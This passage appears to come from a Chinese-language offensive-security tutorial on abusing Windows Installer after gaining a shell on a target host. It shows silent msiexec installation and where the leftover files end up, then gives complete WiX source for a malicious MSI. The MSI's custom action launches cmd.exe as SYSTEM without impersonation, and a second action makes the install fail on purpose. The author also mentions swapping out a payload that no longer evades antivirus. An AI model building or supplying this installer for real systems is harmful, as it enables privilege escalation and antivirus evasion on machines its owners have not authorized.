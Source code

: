 输入 shell 命令进入目标主机 cmd 下使用命令行工具 Msiexec 进行安装，具体命令如下
```
msiexec /quiet /qn /i C:\msi.msi
msiexec工具相关的参数：
/quiet=安装过程中禁止向用户发送消息
/qn=不使用图形界面
/i=安装程序
```
运行后,此时在 `C:\Windows\Installer` 会生成 temp 和 msi 临时文件,安装结束后会自动删除;如果使用的是命令行隐藏安装,则会保留tmp文件;不管怎么都会在 `%TEMP%` 目录下生成对应的log文件

**wix3**

下载地址: https://github.com/wixtoolset/wix3/releases/

msigen.wix 代码下载地址: https://gist.github.com/xpn/d1ef20dfd266053227d3e992ae84c64e

由于上述文件中的 payload 如今已不免杀, 所以我将其替换成如下 payload:
```xml
<Property Id="cmdline">cmd.exe
</Property>
```

完整代码如下:
```xml
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
    <Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product
    Name" Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
    <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
    <Media Id="1" />

     <Directory Id="TARGETDIR" Name="SourceDir">
        <Directory Id="ProgramFilesFolder">
        <Directory Id="INSTALLLOCATION" Name="Example">
            <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
            </Component>
        </Directory>
        </Directory>
    </Directory>

    <Feature Id="DefaultFeature" Level="1">
        <ComponentRef Id="ApplicationFiles"/>
    </Feature>

    <Property Id="cmdline">cmd.exe
    </Property>

    <CustomAction Id="SystemShell" Execute="deferred" Directory="TARGETDIR"
    ExeCommand='[cmdline]' Return="ignore" Impersonate="no"/>

    <CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check">
        invalid vbs to fail install
    </CustomAction>

    <InstallExecuteSequence>
        <Custom Action="SystemShell" After="InstallInitialize"></Custom>
        <Custom Action="FailInstall" Before="InstallFiles"></Custom>
    </InstallExecuteSequence>

    </Product>
</Wix>
```

